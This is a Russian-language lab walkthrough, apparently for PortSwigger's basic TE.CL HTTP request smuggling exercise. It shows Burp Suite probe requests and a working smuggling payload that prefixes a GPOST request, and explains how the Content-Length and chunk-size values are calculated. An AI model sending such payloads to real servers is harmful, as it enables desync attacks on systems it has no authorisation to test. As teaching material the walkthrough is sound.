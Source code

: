 Перейдем на уязвимый ресурс
Откроем `Proxy` -> `HTTP history`

и отправим в `Repeater` запрос на корневую страницу

Сразу же перейдем на версию `HTTP 1.1` через Inspector
и изменим метод запроса на `POST` 

Тем самым получив такой запрос
```
POST / HTTP/1.1
Host: 0a9300ca03353c84804867b4003e00df.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
и 200 ответ
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/2.%20HTTP%20request%20smuggling%2C%20basic%20TE.CL%20vulnerability/pics%20for%20walkthrough/1.png)

Далее воспользуемся пикчей в попытках поиска, на чем работает фронтенд, а на чем бэкенд
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/2.%20HTTP%20request%20smuggling%2C%20basic%20TE.CL%20vulnerability/pics%20for%20walkthrough/2.png)
```
POST / HTTP/1.1
Host: 0a9300ca03353c84804867b4003e00df.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```
и увидим, что выдало
`HTTP/1.1 400 Bad Request
{"error":"Invalid request"}`

согласно пикче, это означает, что на фронте `TE`, а на бэкенде или `CL или TE`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/2.%20HTTP%20request%20smuggling%2C%20basic%20TE.CL%20vulnerability/pics%20for%20walkthrough/3.png)

Используем другой запрос
```
POST / HTTP/1.1
Host: 0a9300ca03353c84804867b4003e00df.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
В ответе получим таймаут, что согласно той же картинке, означает связку `TE.CL`
`Server Error: Communication timed out`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/2.%20HTTP%20request%20smuggling%2C%20basic%20TE.CL%20vulnerability/pics%20for%20walkthrough/4.png)


Отлично, теперь мы разобрались кто что использует, теперь будем это все эксплуатировать
```
POST / HTTP/1.1
Host: 0a9300ca03353c84804867b4003e00df.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/2.%20HTTP%20request%20smuggling%2C%20basic%20TE.CL%20vulnerability/pics%20for%20walkthrough/5.png)

А второй запрос - просто запрос на корневой страницу, который в ответ нам и пришлет желанную фразу - `"Unrecognized method GPOST"`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/2.%20HTTP%20request%20smuggling%2C%20basic%20TE.CL%20vulnerability/pics%20for%20walkthrough/6.png)

А теперь давайте разберемся как мы получили наш изначальный запрос

Разберем нижний запрос
```
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0
```

`GPOST` стоит потому, что просто нужен GPOST по условию задания
Далее идет поле Content-length со значением 6, все потому, что оно должно превосходить байтовую составляющую того, что ниже. С помощью панели inspector мы понимаем - что байтовая составляющая нижней части - 5
Минимально близкое к 5 число, превосходящее его - это 6
отлично

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/2.%20HTTP%20request%20smuggling%2C%20basic%20TE.CL%20vulnerability/pics%20for%20walkthrough/7.png)

Далее перейдем к верхней части запроса
```
POST / HTTP/1.1
Host: 0a9300ca03353c84804867b4003e00df.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

56
```

Число `56` стоит из-за того, что байтовая составляющая нижестоящих заголовков (что ниже них - не считается) - составляет 56 байт

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/2.%20HTTP%20request%20smuggling%2C%20basic%20TE.CL%20vulnerability/pics%20for%20walkthrough/8.png)

